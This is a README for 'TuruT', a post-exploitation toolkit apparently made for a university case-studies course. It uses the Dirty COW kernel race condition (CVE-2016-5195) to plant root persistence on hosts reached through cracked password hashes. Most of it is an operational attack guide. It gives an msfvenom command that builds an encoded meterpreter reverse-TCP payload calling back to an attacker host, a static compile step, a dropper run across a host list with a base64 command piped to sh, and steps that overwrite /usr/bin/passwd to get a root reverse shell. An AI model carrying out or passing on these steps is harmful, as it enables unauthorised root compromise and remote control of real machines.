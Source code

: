 # TURUT

 This is the README file for the post exploitation project nicknamed "TuruT"
 The project is designed for the COSC481 Case Studies course

 The Project's goals are to plant persistence as the root user, after cracking
 a hash for a non-sudo user. This is done by taking advantage of CVE-2016-5195
 otherwise known as DirtyC0W

 This exploit takes advantage of a race condition within the Copy-on-Write mechanism
 of linux systems. Taking advantage of the mechanism allows us to write to a normally
 read-only file, which could lead to disastrous outcomes, such as those demonstrated
 by TuruT




To use TuruT:

 Crack a password hash of a user on the target systems/network or otherwise gain 
 access to an underprivileged user. 

 In our specific case, we have cracked password 
 hashes that apply to an entire subnetwork, and thus we can add a list of vulnerable 
 systems to the 'hosts' file included in this directory.

 Use the poke_suid_1.c file to implant your custom reversetcp shellcode:
> 	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Attacker-IP> LPORT=<Attacker-Port> -e x86/shikata_ga_nai -f elf | xxd -i > shellcode.txt

 After implanting shellcode into the poke_suid_1.c, compile with musl:
> 	musl-gcc -static -pthread -o amanita poke_suid_1.c

 Start a multi/handler listener with metasploit tied to the ip/port above

 Load into turut_dropper.py with :
> 	python turut_dropper.py -i hosts -u <user> -p <password> -l <local-path-of-dc-binary> -r <remote-destination-path/dc-binary> -c '<base64-command>' &

>	Note for <base64-command>: When running multiple commands after one another it is best to base64 them together with:
>	'echo <base64'd-code> | base64 -d | sh' 

>	For this example use:
>>		tar -xvf /home/user/fungus.tar		# unpack the goodies
>>		/home/zathras/fungus/amanita &		# execute dc binary to overwrite /usr/bin/passwd
>>		sleep 15;				# give it time to work a lil
>>		passwd &				# execute and wait for reverse shell

> There exists a post-exploitation-automation bash script in the package called config.sh. 
> This script should be ran as a full root account and not the suid root. For some reason the permissions won't carry.


> "Tis a MOXIE by PROXY my dear friend"
